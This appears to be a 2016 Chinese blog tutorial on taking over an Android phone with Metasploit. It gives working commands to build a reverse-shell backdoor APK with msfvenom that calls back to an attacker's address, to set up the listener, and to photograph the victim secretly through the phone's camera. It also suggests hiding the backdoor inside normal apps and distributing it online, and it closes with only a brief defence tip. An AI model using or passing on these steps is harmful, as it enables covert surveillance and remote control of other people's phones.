

演示使用Metasploit入侵Android
文本演示怎么使用Kali Linux入侵Android手机。
Kali Linux IP地址：192.168.0.112；接收连接的端口：443。

同一局域网内android手机一部(android 5.1)
创建一个后门程序
在终端中执行：
# msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=443 > my_backdoor.apk这个后门程序(APK)是发送给受害者的；要把上面命令的IP地址替换为攻击者IP，当后门程序运行时，它会试图连接这个IP。
启动Metasploit－等待受害者启动后门程序
# msfconsole
依次执行：
msf > use exploit/multi/handler
> set payload android/meterpreter/reverse_tcp
> set lhost 192.168.0.112
> set lport 443
> exploit
分发后门程序
一般后门程序都打包到正常app中，反正就是各种藏；
借助internet分发后门程序。
闲话不多书，这里我在自己的android手机上安装运行带后门的apk。

病毒！！！
控制受害者手机
受害者运行后门程序之后，就可以使用Metasploit控制他了：

使用help查看可以使用的命令：

例如使用对方的摄像头拍照：
> webcam_list
> webcam_snap怎么防范：
- 不要安装不信任的apk
- 如果你非要安装未知来源的apk，你可以使用android逆向工程查看apk的代码。学习Android逆向工程

Written on April 18, 2016